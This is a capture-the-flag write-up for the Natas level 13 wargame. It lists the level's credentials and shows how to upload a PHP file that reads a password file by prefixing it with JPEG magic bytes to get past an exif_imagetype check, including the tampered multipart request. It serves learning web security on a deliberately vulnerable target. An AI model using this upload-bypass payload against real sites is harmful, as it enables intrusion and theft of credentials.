# Username
natas13
# Password
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
# Web vulnerability
Insecure file upload, filter bypass
# Method of solve
Like the previous level, the goal is to upload an insecure file and access it to get access to the password. The malicious file contents will be the following
```
<?php echo file_get_contents('/etc/natas_webpass/natas14'); ?>
```
However there is new code on this webpage that will make uploading this file more difficult. In particular, this section of the webpage code
```
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```
The exif_imagetype PHP function checks for "magic bytes" in the contents of the file, which is a filetype indentifier determined by the first four bytes of a file. For example, the first four bytes of JPEG files are
```
ÿØÿà
```
To make it easier, start up Burp Suite, open the Burp Browser, then record uploading a legitimate JPEG image. In Kali Linux, there's a small JPEG file at the following location
```
/usr/lib/python3/dist-packages/IPython/core/tests/2x2.jpg
```
Once we record the POST request to the app, we can send that request to the Repeater tool. We'll replay the request in the Repeater with the following adjustments...
```
------WebKitFormBoundary1jL3sRu3kAyO7l5U
Content-Disposition: form-data; name="filename"

qleupdwg3a.php
------WebKitFormBoundary1jL3sRu3kAyO7l5U
Content-Disposition: form-data; name="uploadedfile"; filename="2x2.jpg"
Content-Type: image/jpeg

ÿØÿà<?php echo file_get_contents('/etc/natas_webpass/natas14'); ?>
```
Note that we changed the random-string filename extension from .jpg to .php. We also need to edit the contents of the upload so that the PHP code is written immediately after the first four bytes, the "yoya" characters. After that is done, we send the request, and are informed of a endpoint where our file was uploaded. Upon accessing this endpoint, we receive the password
